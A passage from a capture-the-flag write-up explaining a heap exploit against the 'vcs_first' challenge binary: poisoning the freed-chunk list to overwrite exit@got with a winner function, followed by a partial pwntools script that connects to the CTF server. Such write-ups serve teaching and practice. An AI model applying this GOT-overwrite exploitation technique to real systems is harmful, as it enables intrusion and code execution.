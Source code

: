 ```py
send(b"1")
send(b"-1")

p.interactive()
```

The free'd list after the two creates and deletes is `0x60: chunk1 -> chunk2`. We then edit it to be `0x60: chunk1 -> exit@got`. We then create two chunks to create the second chunk at the address of exit@got, and editing exit@got to point at the winner function instead of libc. We then make sure exit is called by sending a negative index to `create`, and when the program tries to call `exit` it will call the `winner` function instead.

Running this locally gives us a shell, and running it against the remote lets us read the flag.

![getting the flag](./images/flag.png "getting the flag")

If you liked this writeup, feel free to check out the original and other similar writeups at [ctf.krloer.com](https://ctf.krloer.com/writeups/ept/baby_heap/)

### Full exploit:

```py
#!/usr/bin/env python3
from pwn import *
import psutil

BINARY = "vcs_first"

context.update(arch="amd64",os="linux")
context.binary = exe = ELF(f"./{BINARY}", checksec=False)

def get_pid_by_name(process_name):
    for process in psutil.process_iter(attrs=['pid', 'name']):
        if process.info['name'] == process_name:
            return process.info['pid']
    return None

# IMPORTANT: requires that you run `docker run -d -p 1024:1024 --rm -it vcs_first` first (with the normal docker image, not the development onw)
# p = remote("localhost", 1024)
# pause() # to give it some time

p = remote("io.ept.gg", 30005)

# uncomment to attach to process in docker
# gdb.attach(target=get_pid_by_name(BINARY), exe=f"./{BINARY}", gdbscript='''
#     source /home/moody/.gdbinit-gef-docker.py
#     c
# ''')

def send(payload):
    p.recvuntil(b">") # thank you nordbo
    p.sendline(payload)

send(b"1") #create (malloc)
send(b"0")

send(b"1") #create (malloc)
send(b"1")
```